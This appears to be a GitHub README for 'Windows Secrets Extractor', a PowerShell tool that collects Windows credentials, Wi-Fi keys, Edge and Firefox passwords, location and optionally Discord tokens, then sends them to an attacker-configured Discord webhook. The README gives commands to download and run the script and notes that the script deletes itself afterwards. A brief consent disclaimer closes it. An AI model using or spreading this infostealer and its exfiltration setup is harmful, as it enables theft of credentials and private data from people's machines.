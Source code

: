 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell [CredentialManager](https://www.powershellgallery.com/packages/CredentialManager/2.0) Module : ``Install-Module -Name CredentialManager``
> (Optionnal) Python 3, if you want Discord Token Grab


### Before Usage
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``8`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
